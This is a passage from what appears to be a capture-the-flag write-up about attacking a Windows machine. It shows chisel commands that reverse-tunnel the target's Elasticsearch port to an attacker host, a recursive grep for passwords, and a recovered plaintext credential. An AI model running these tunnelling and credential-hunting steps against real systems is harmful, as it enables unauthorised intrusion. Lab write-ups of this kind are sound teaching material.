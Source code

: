 ```
ELASTICURI=https://127.0.0.1:9200
```

It seems that Elastic is running on the machine on port 9200, and there's also a weird `a.exe` binary present. Running it does nothing though.

### Elastic + Reversing 

Firstly, I used `chisel` to forward port 9200 to my machine. 

```bash
# on kali
./chisel server --port 4444 --reverse

# on machine
cmd /c .\chisel.exe client 10.10.14.33:4444 R:9200:127.0.0.1:9200
```

When I visited `https://localhost:9200`, it required credentials to get in. Fortunately, `C:\Program Files` contained some Elastic files.

```
PS C:\Program Files> dir
    Directory: C:\Program Files
Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
d-----          6/7/2023   6:39 AM                Common Files                                                         
d-----          6/8/2023   3:20 AM                elasticsearch-8.8.0 
<TRUNCATED>
```

Spent like an hour here trying to find out the correct password. Ended up doing `Get-ChildItem -Recurse | Select-String -Pattern "password" -List` and just going through each line until I found this:

```
finish...Failed starting Java.serviceStopStopping service...Failed to create process.Service 
started in %d milliseconds.Failed to execute process.%d
data\indices\n5Gtg7mtSVOUFiVHo9w-Nw\0\index\_jc.cfs:21:?metadata":{},"realm":"__attach"Z▒?}}?reserv?5ed-user-
elasticI{"password":"oKHzjZw0EGcRxT2cux5K","enabled":true,"[?reserved-user"}?
```

I tried a username of `user` and `elastic` with this password, and `elastic` worked.

